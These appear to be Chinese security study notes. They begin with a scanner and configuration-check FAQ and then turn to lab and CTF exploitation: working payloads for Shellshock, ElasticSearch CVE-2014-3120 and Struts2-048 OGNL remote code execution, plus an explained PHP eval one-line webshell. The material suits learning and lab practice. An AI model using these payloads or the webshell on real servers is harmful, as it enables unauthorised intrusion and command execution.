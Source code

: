 <h1></h1>
## 安全服务问题

#### 扫描器工作原理
扫描器的工作原理是基于CVE漏洞库的半连接的扫描方式，首先探测目标系统的活动主机，对活动主机进行端口扫描，确定系统开放的端口，同时根据协议指纹技术识别出主机的操作系统类型。然后扫描器对开放的端口进行网络服务类型的识别，确定其提供的网络服务。漏洞扫描器根据目标系统的的操作系统平台和提供的网络服务，调用漏洞资料库中已知的各种漏洞进行逐一检测，通过对探测响应数据包的分析判断是否存在已知安全漏洞。目标可以是工作站、服务器、交换机、数据库应用等各种对象。扫描结果可以给用户提供周密可靠的安全性分析报告，是提高网络安全整体水平的重要依据。

#### 服务器ip禁ping怎么办
遇到服务器禁ping的情况，应先问知kh的服务器是否为开启的状态，若开启了禁ping策略，扫描器需配置高级选项中，勾掉“禁止存活性测试”，但会降低扫描的速率。

#### 配置核查，都包括哪些东西
配置核查包括对操作系统，数据库，中间件，网络设备，安全设备，其他等进行配置核查，配置核查属于机器安全配置的基线，例如：linux配置核查中包括身份鉴别、访问控制、入侵防范、安全审计等

#### 配置核查的方式
配置核查方式，有在线和离线，1：其中离线检查需下载对应的离线检查工具，按照其操作方法进行脚本执行，将执行结果导入扫描器即可生成报告。2：在线方式，直接勾选配置检查模块进行在线模式检查，需注意常见的windows的在线检查须通过rdp协议进行登录账号扫描，需在windows服务器上装插件，也可以通过smb协议进行登录扫描，但要提前确认smb账号密码。Linux、路由器、交换机、华为防火墙、配置核查直接使用root等管理员账户账号密码检查即可

#### 漏洞和配置核查的安全加固怎么做
漏洞加固最好的处理方式进行修补补丁、系统升级、临时修复通过更改配置、更改路径、删除文件等方式处理。配置核查加固一般根据扫描报告中配置检查项标准值进行配置更改，对于未检查出实际值的配置项需与客户确认问题是否存在或自行核查以确认问题

#### 扫描只提供了一个IP地址，可以怎么配置扫描器网络
1.配置扫描器主机地址，本机地址和主机地址同段，将客户提供ip地址配置为业务口进行扫描工作；属于桥接模式
2.在nat模式下，可以在扫描器后台配置dhcp，自动获取扫描ip，然后通过该ip登录后台，在网络配置中添加客户提供ip进行扫描
注：扫描前要ping一下网关确保网络正常

<br/> <br/> <br/>

## 靶场漏洞

#### bash 命令执行 （CVE-2014-6271）
目前的Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。 影响版本：GNU Bash <= 4.3
利用过程
有两个页面http://ip:port/victim.cgi和http://ip:port/safe.cgi
访问 http://ip:port/victim.cgi，通过Burp截包修改 HTTP 请求头中User-Agent字段：
User-Agent: () { :;};echo `/bin/ls ls /tmp`" #列出tmp目录下所有文件
/bin/ls 事调用bin目录下ls事件  获取flag

ElasticSearch（CVE-2014-3120）命令执行漏洞复现
访问靶场环境，启动后可在浏览器页面成功访问
漏洞复现
用burp抓数据包
利用该漏洞之前，es至少需要存在一条数据，通过以下请求包创建数据：

1、利用POST方式提交数据
2、文件名字任意
3、浏览器的原生 form 表单，如果不设置 enctype 属性，那么其中Content-Type字段最终会以 application/x-www-form-urlencoded 方式提交数据。
而对于"application/x-www-form-urlencoded"，其参数组织形式是"键值对"。

三、利用命令执行漏洞，将一段java代码放进去
java代码：{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {}
        }      }    },
    "script_fields": {
        "command": {
            "script":"import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }    }    }
        
其中：exec(\"ls /tmp\") 中是执行命令内容
struts2-048 远程代码执行
访问漏洞存在的路径 /integration/saveGangster.action
构建命令执行的pyload,执行命令为id
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls /tmp').getInputStream())).(#q)}    

其中：exec('ls /tmp') 中是执行命令内容,可查看tmp下存在的flag

<br/> <br/> <br/>

## 线上靶场

通关线上靶场大多数S2和weblogic发序列化漏洞，可通过java反序列化漏洞利用工具进行测试，
瓶颈：之前不了解原因是因为，对文件存在的目录不了解，使用 pwd 命令 进行查看路径，发现都不是在根目录，通常靶场flag存在根目录下，tmp文件夹中，通关cd / 命令可以到达根目录下，之前使用命令执行时，用的都是相对路径，没有使用绝对路径进行执行，所以导致命令执行失败
问题：命令执行是把 "cd / | ls" 和 "ls | cd /"先后执行顺序弄反，导致错误的命令执行

<br/> <br/> <br/>

## 一句话木马原理

一句话木马 webshell 到web服务器目录 接着权获取系统权限

基本原理利用文件上传漏洞上传webshell

 <?php @eval($_POST['pass']);?> 

--- <?php ?> --- php文件要求格式

--- @ 表示后面即使执行错误，也不报错

--- eval() 函数表示把括号内的全当代码执行

--- $_POST['pass`']`表示从页面中获得pass这个参数值。

​	php 超全局变量：`$_GET`、`$_POST`就是其中之一

​    `		$_POST['pass']`; 的意思就是pass这个变量，用post的方法接收。

​					就是来收集 请求方法为post 的名字为pass表单里面的值

​			 ---  $_POST数组获取使用POST方式提交的表单数据

​                form标签的指定该属性："method="post"。

​					就是获取表单名为pass中的表单内容

  	 比如 eval( "echo 'a' ") == echo 'a' 

​		 <?php @eval($_POST['pass']);?>   

​			首先用post请求接受变量pass  若pass = echo 'a'  

​			代码就变成了 <?php eval("echo 'a';"); ?>

所以我们可以简单的想 中国菜刀发的这么一个包 包的代码是打开指定目录的句柄，然后进行循环扫描，并附带上权限、时间、大小、日期 这个包我这里用package来代替 所以在操作的时候其实就是 key = package 然后通过eval函数执行package的php代码 从而最终达成目的
中国菜刀 发一个包，包的代码是打开目录的

